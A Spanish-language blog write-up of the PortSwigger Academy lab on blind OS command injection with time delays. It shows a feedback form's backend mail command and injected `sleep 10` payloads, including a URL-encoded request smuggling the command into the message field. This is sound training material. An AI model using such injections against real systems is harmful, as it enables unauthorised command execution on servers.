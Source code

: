 +++
author = "Alux"
title = "Portswigger Academy Learning Path: OS Command Injection Lab 2"
date = "2021-12-01"
description = "Lab: Blind OS command injection with time delays"
tags = [
    "command injection",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind OS command injection with time delays

En este <cite>laboratorio[^1]</cite>la finalidad es obtener ejecucion de comandos en el sitio web, pero ya que no se recibe respuesta hay que ingresar un delay para saber que se ejecuto la inyeccion correctamente.


## Reconocimiento

La web cuenta con un formulario para el envio de feedback hacia el correo del servidor.

![Web](web.png)

Hasta ahi todo bien pero hace una peticion que lo que hace es enviar el correo por medio de una consulta por terminal de `mail` que es para el envio de correo por terminal linux.

![Solicitud de imagen](request.png)

El tipo de ejecucion que se hace al backend es:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

## Explotacion

Lo que haremos es inyectar otros parametros para poder ejecutar otros comandos, y queremos ejecutar la siguiente consulta para que nos devuelva el nombre del usuario que esta ejecutando el script

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com `sleep 10`
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com $(sleep 10)
```
Por lo que la peticion quedaria asi (codificada en formato URL)

```
csrf=19jGeYaNMECUmKvnBJNL0vXbIEuE06Cj&name=name&email=email%40mail.com&subject=subject&message=message+`sleep+10`%0D%0A
```

Y obtenemos una ejecucion de comandos dentro del servidor, porque la respuesta ha tardado 10 segundos en contestar como se puede ver en la `esquina inferior derecha`

![Solicitud de archivo passwd](request2.png)

Y con esto hemos resuelto el lab

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)